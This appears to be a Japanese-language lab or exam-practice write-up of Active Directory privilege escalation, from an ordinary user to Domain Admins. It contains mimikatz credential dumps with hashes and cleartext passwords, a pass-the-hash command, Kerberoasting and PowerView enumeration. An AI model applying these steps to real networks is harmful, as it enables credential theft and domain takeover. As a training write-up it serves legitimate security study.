 # 主題
ここでは、Active Directoryを低い権限から最終的にDomai Adminsの権限まで昇格する一連の流れを示す。Active Directoryを中心に話す。

流れとしては

**10.11.1.123** (ただのUsersグループ) -> **10.11.1.121** (サービスアカウント) -> **10.11.1.120** (Domain Admins)

の流れ。

# 10.11.1.123 (ただのUsersグループのメンバー)

（イニシャルシェルは、http://10.11.1.123/Books にアクセスして、My Business-Period(Bizuno Library 3.1.7)とわかる。エクスプロイトがある。**初めからすでにsystem権限の状態**）

mimikatzでハッシュを取り出しても、このマシン10.11.1.123のユーザxor-app59についてのハッシュしか出てこない。すなわちActive Directoryのドメイン中の他のユーザのハッシュはmimikatzでは出てこない
（そりゃそうか。Domain Adminsの人はACのトップであり、全ユーザを管理するから各ユーザのハッシュが出てくるのか。）

ちなみにmimikatzでは、このマシンxor-app59のAdministratorのハッシュが出た：

```
Authentication Id : 0 ; 337803 (00000000:0005278b)
Authentication Id : 0 ; 337803 (00000000:0005278b)
Session           : Interactive from 0
User Name         : Administrator
Domain            : XOR-APP59
Logon Server      : XOR-APP59
Logon Time        : 9/20/2021 2:39:23 AM
SID               : S-1-5-21-3051798232-4248191986-2095020414-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : XOR-APP59
         * NTLM     : 3fee04b01f59a1001a366a7681e95699
         * SHA1     : 3a8679fbfdfea03f2d3b5a1a1aa185cca912014b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : XOR-APP59
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : XOR-APP59
         * Password : (null)
```

だからxor-app59（10.11.1.123）には次のようにPass the Hashできる：

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -u Administrator -H 3fee04b01f59a1001a366a7681e95699  -i 10.11.1.123
```

ユーザグループだからか、サービスアカウントに対してSilver Ticket作ってサービスアカウントのシェルを起動させようとしたり、（AdministratorにOver pass the hashしようとしたり...<- いやいや、
このAdministratorって自分の、xor-app59のAdministratorのことだよ）したけど無理だった。

しかし、**Kerberoasができた！** （`Invoke-Kerberoast`でkrb5tgs型のハッシュをとって変換してhashcatでクラックするやつ）


# 10.11.1.121 (サービスアカウント）

xor-app23としてrdpじゃなくて、サービスアカウントSQLServer（PowerViewの`Get-NetUser`で表示）としてrdpでドメインをきちんと指定してアクセス：（10.11.1.121がxor-app23と分かったのは、
autoreconのnmapの結果）

```
┌──(kali㉿kali)-[~]
└─$ rdesktop -d xor.com -u SQLServer -p shantewhite 10.11.1.121
```

このSQLServerユーザでログインするとproof.txtが読める、すなわち10.11.1.121のadmin権限がある。（コマンドプロンプトを**Run as Administrator**として開ける）

**System権限にも関わらずmimikatzの`sekurlsa::logonpasswords`が効かない場合は、mimikatzの新しい方（mimikatz211.exe）を使え！** （<- 古いmimikatzにある問題だって。）


**daisyのrdpファイル発見。** mimikatzにより、daisyのパスワードが**XorPasswordIsDead17**と判明。


＜daisyについて＞

すでにsystem権限（IPアドレスは10.11.1.122)。

```
C:\Windows\system32>whoami
xor\daisy

C:\Windows\system32>ipconfig

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.11.1.122
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.11.0.1
```

ここまでで、10.11.1.123, 10.11.1.121, 10.11.1.122を攻略できた。ということは、残すはDomain Adminsの10.11.1.123だ！

mimikatzはここら辺にしておいて、PowerViewでActive Directoryの調査を進める。最終ゴールはDoamin Adminsに行き着くこと！！

daisyはServer_Personelのメンバーだ。

```
PS C:\> Get-NetUser Daisy


logoncount            : 15
badpasswordtime       : 12/31/1600 4:00:00 PM
distinguishedname     : CN=Daisy,OU=ServerPersonal,OU=xorUsr,DC=xor,DC=com
objectclass           : {top, person, organizationalPerson, user}
displayname           : Daisy
lastlogontimestamp    : 12/18/2021 6:58:37 AM
userprincipalname     : daisy@xor.com
name                  : Daisy
objectsid             : S-1-5-21-2293535422-227910474-3663383505-1119
samaccountname        : daisy
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 12/18/2021 2:58:37 PM
instancetype          : 4
usncreated            : 12882
objectguid            : 9a47b615-4ee5-4016-a9da-042819b57b5c
lastlogoff            : 12/31/1600 4:00:00 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=xor,DC=com
dscorepropagationdata : 1/1/1601 12:00:00 AM
memberof              : CN=Server_Personel,OU=xorGrps,DC=xor,DC=com
lastlogon             : 12/18/2021 6:59:02 AM
badpwdcount           : 0
cn                    : Daisy
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
whencreated           : 5/20/2019 8:07:07 PM
primarygroupid        : 513
pwdlastset            : 5/20/2019 1:07:07 PM
usnchanged            : 57501
```

以下の出力より、Domain Adminsに上り詰めるには、**Albert**か**David**のクリデンシャルをゲットすれば良い

```
PS C:\> Get-NetGroup "Domain Admins"


grouptype              : GLOBAL_SCOPE, SECURITY
admincount             : 1
iscriticalsystemobject : True
samaccounttype         : GROUP_OBJECT
samaccountname         : Domain Admins
whenchanged            : 5/20/2019 8:13:09 PM
objectsid              : S-1-5-21-2293535422-227910474-3663383505-512
objectclass            : {top, group}
cn                     : Domain Admins
usnchanged             : 13265
dscorepropagationdata  : {5/20/2019 8:13:09 PM, 5/20/2019 7:58:00 PM, 1/1/1601 12:04:16 AM}
memberof               : {CN=Denied RODC Password Replication Group,CN=Users,DC=xor,DC=com, CN=Administrators,CN=Builtin,DC=xor,DC=com}
description            : Designated administrators of the domain
distinguishedname      : CN=Domain Admins,CN=Users,DC=xor,DC=com
name                   : Domain Admins
member                 : {CN=Albert,OU=AdminPersonal,OU=xorUsr,DC=xor,DC=com, CN=David,OU=AdminPersonal,OU=xorUsr,DC=xor,DC=com,
                         CN=Administrator,CN=Users,DC=xor,DC=com}
```

やはり！daisy（10.11.1.122）にdavidのクリデンシャルがあった！！

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 412581 (00000000:00064ba5)                                                                                                               Session           : Batch from 0                                                                                                                                 User Name         : david                                                                                                                                        Domain            : xor                                                                                                                                          Logon Server      : XOR-DC01                                                                                                                                     Logon Time        : 12/18/2021 5:59:52 AM                                                                                                                        SID               : S-1-5-21-2293535422-227910474-3663383505-1123                                                                                                        msv :                                                                                                                                                             [00000003] Primary                                                                                                                                               * Username : david                                                                                                                                               * Domain   : xor                                                                                                                                                 * NTLM     : d4738e8c31d43e0147f27894a20e6683                                                                                                                    * SHA1     : b1c2b2c766e7ad7688029ebc42fbacabae7fba72                                                                                                            * DPAPI    : b712cb5d0fb0bdf9530c115100e2b574                                                                                                                   tspkg :                                                                                                                                                          wdigest :                                                                                                                                                         * Username : david                                                                                                                                               * Domain   : xor                                                                                                                                                 * Password : (null)                                                                                                                                             kerberos :                                                                                                                                                        * Username : david                                                                                                                                               * Domain   : XOR.COM                                                                                                                                             * Password : dsfdf34534tdfGDFG5rdgr 
```


